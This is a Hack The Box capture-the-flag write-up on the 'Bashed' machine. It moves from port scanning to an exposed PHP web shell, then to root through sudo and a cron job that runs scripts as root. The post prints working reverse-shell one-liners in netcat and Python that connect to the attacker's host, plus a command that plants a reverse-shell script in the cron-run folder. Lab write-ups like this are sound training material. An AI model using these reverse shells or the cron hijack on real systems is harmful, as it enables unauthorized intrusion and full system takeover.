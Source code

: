 ```yaml
---
title: "Hack The Box - Bashed"
date: 2020-01-21
tags: [oscp, htb, linux]
published: true
---
```


- [Machine Info](#machine-info)
- [Enumeration](#enumeration)
- [Initial Shell](#initial-shell)
  - [Enumerate with web shell](#enumerate-with-web-shell)
- [Privlege Escalation](#privlege-escalation)
  - [Sudoers file](#sudoers-file)
  - [Upgrading the shell](#upgrading-the-shell)
  - [Upgrading the shell (again!)](#upgrading-the-shell-again)
  - [Poking the scripts folder](#poking-the-scripts-folder)
  - [Adding our own exploit](#adding-our-own-exploit)

---

## Machine Info

![](/assets/htb-bashed/machine_info.png)

## Enumeration

Nmap scans show only port 80 is open, running Apache 2.4.18 for Ubuntu.

```
Nmap scan report for 10.10.10.68
Host is up, received user-set (0.050s latency).
Scanned at 2020-01-20 23:22:13 EST for 51s
Not shown: 65534 closed ports
Reason: 65534 resets
PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: 6AA5034A553DFA77C3B2C7B4C26CF870
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site
```

The home page talks about a PHP webshell called `bashed` that the owner created, on this very site. Further investigation with Gobuster shows the below directories.

```
/about.html (Status: 200) [Size: 8190]
/config.php (Status: 200) [Size: 0]
/contact.html (Status: 200) [Size: 7802]
/css (Status: 301) [Size: 308]
/dev (Status: 301) [Size: 308]
/fonts (Status: 301) [Size: 310]
/images (Status: 301) [Size: 311]
/index.html (Status: 200) [Size: 7742]
/index.html (Status: 200) [Size: 7742]
/js (Status: 301) [Size: 307]
/php (Status: 301) [Size: 308]
/single.html (Status: 200) [Size: 7476]
/uploads (Status: 301) [Size: 312]
```

---

## Initial Shell

### Enumerate with web shell

Navigating to the `/dev` direcotry, it brings us to a directory listing, which includes a copy of `phpbash.php`. Clicking on `phpbash.php` immediatly places us into the `bashed` webshell mentioned on the homepage. With the `id` and `whoami` commands, we can see that we're running as `www-data`.

![](/assets/htb-bashed/phpbash_initialshell.png)

Some further poking with `uname -a` and `cat /etc/issue` shows that we're on a Ubuntu 16.04 system, running kernel version 4.4.0.

![](/assets/htb-bashed/wwwdata_enum_version.png)

We can confirm with `which nc` that netcat is already installed, which will help with any reverse shells going forward. We can also see a list of user directories with `ls -la /home`.

![](/assets/htb-bashed/wwwdata_nc_homedirs.png)

Besides the obvious `arrexel` username that we assumed from the homepage, there appears to be another user called `scriptmanager`. Both directories look to be readable by `www-data`. Looking in the `/home/scriptmanager` directory shows it's empty, and none of the files are readbale by our current user. We can however navigate to `/home/arrexel` and read `user.txt`.

![](/assets/htb-bashed/user_proof.png)

---

## Privlege Escalation

### Sudoers file

At this point, it makes sense to check if maybe `www-data` has more permissions then it seems. We can use `sudo -l` to see if there are any entires in the sudoers file, which might allow us access as a different user.

![](/assets/htb-bashed/wwwdata_sudoers.png)

Looks like `www-data` can use `sudo` to run any command as `scriptmanager` with no password needed.

### Upgrading the shell

When we try to run anything as `sudo` however, we get a message that *no tty present*. This is common in webshells. It also means it's time to upgrade our shell with netcat.

We first need to start a listener on our machine with `nc -lvnp 7500`. Once that's setup, we can run `/bin/sh | nc 10.10.14.12 7500` on the webshell to kick off the reverse shell.

> NOTE: Although `nc` is installed, it's the OpenBSD version, which does not include the `-e` option to execute a program on conneciton. Instead, we have to pipe `/bin/sh` into the `nc ` command to get the shell.

![](/assets/htb-bashed/revshell_failed.png)

Looks like this is very unstable, and dies right away. Let's try a Python reverse shell with the below command. Don't forget to restart your `nc` listener as well.

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.12",7500));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

![](/assets/htb-bashed/python_revshell.png)

It works! Now we have to upgrade the shell to properly run the `sudo` commands we need. We can upgrade to a good `bash` shell with `python -c 'import pty;pty.spawn("/bin/bash")'`. Once that shell is spawned, we need to issue some commands to get a good TTY shell.

```shell
CTRL-Z # Sends the netcat session to the background
stty raw -echo # Properly sets terminal to pass CTRL-* commands to the netcat session
fg # Brings the netcat sesison back up
```

![](/assets/htb-bashed/upgraded_python_shell.png)

### Upgrading the shell (again!)

Now that we have access to a TTY shell, we can confirm that using `sudo -u scriptmanager` before a command will run it as `scriptmanager` without the need for a password. HOwever, this can get tiresome really fast. To bypass this, we can simply run `sudo -u scriptmanager /bin/bash`, which will open a `bash` shell as `scriptmanager`.

### Poking the scripts folder

Now that we're finally in a solid shell as `scriptmanager`, we can go poking around.

Running `ls -la /` shows a directory called `/scripts` at the drive root, and it's owned by `scriptmanager`.

![](/assets/htb-bashed/scripts_directory.png)

Inside `/scripts` are two files, `test.py` and `test.txt`. When we read `test.py`, we can see that it simply reads the content of `test.txt`.

![](/assets/htb-bashed/scripts_dir_contents.png)

We can modify the file to test it out with a `ping` back to our machine.

```shell
echo "import os" >> test.py
echo "ip = '10.10.14.12'" >> test.py
echo "command = os.system('ping -c 5 ' + ip)" >> test.py
```

This adds the lines to the existing `test.py` scirpt. We can see the new file below:

```shell
scriptmanager@bashed:/scripts$ cat test.py
cat test.py
f = open("test.txt", "w")
f.write("testing 123!")
f.close
import os
ip = '10.10.14.12'
command = os.system('ping -c 5 ' + ip)
```

When we run the script with `python test.py`, we can see the pings going thorugh. We can test this on our end with a `tcpdump` listener using `tcpdump -i tun0 icmp`.

![](/assets/htb-bashed/tcpdump_initial.png)

### Adding our own exploit

In the process of testing, I noticed immediatly that the 5 pings from the `test.py` script were followed up by another 5 pings within the time it took me to take a screenshot. This leads me to beleive that there must be a cronjob running to execute scripts in the `/scripts` folder. If this is the case, then we have our path to `root`.

We can make a simple python script that will initiate a reverse shell when run, using the below command:

```shell
echo "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.12\",7700));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);" > root_shell.py
```

We setup the listener with `nc -lvnp 7700` and wait. Sure enough, we get a shell back after a short while.

![](/assets/htb-bashed/root_shell.png)

We got `root`! Let's grab the flag.

![](/assets/htb-bashed/root_proof.png)

When we check the `cron` list for `root`, we can see that it was in fact running every `*.py` script in `/scripts`.

![](/assets/htb-bashed/root_cron.png)
